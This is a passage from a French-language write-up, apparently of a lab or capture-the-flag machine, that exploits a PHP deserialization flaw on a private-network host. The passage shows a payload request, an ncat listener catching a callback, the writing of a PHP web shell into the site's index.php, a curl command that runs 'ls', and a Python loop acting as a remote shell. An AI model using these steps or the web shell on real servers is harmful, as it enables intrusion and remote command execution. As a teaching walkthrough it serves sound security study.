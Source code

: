 ```python
    "http://192.168.1.43/index.php",
    data={"param": new_payload},
    headers={
        "referer":"http://192.168.1.43/index.php",
        "content-type": "application/x-www-form-urlencoded"
    }
)

print(response.text)
```

et le miracle s'accomplit dans un ncat préalablement lancé :  

```bash
$ sudo ncat -l -p 21 -v
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::21
Ncat: Listening on 0.0.0.0:21
Ncat: Connection from 192.168.1.43.
Ncat: Connection from 192.168.1.43:37731.
```

Deux choses à en tirer : la dé-sérialisation a bien lieu et le path est pris directement (pas de prépend). Pour autant quand on tente d'écrire dans un script via un chemin relatif je ne vois rien apparaître.  

A l'abordage !
--------------

Après avoir testé quelques chemins absolus j'obtiens une écriture avec les modifications suivantes dans mon script :  

```python
injection = '/* yoyo */'
output_file = "/var/www/html/scriptz/php.js"
```

Ok, maintenant il s'agit d'injecter du code PHP et il ne faut pas se louper car si on introduit une erreur de syntaxe dans le index.php ça va être dûr à rattraper :|   

```python
injection = '---START---<?php system($_POST["cmd"?>---END---'
output_file = "/var/www/html/index.php"
```

Et on est bon ! On peut maintenant exécuter un ls avec la commande *curl --data "cmd=ls" http://192.168.1.43/index.php*  

Je code un pseudo shell pour la route :   

```python
import requests
from requests.exceptions import RequestException

while True:
    command = input("$ ")
    if command.lower().strip() == "exit":
        break

    response = requests.post(
        "http://192.168.1.43/index.php",
        data={"cmd": command}
    )

    if "---START---" in response.text:
        output = response.text.split("---START---")[1]
        output = output.split("---END---")[0]
        print(output)
```
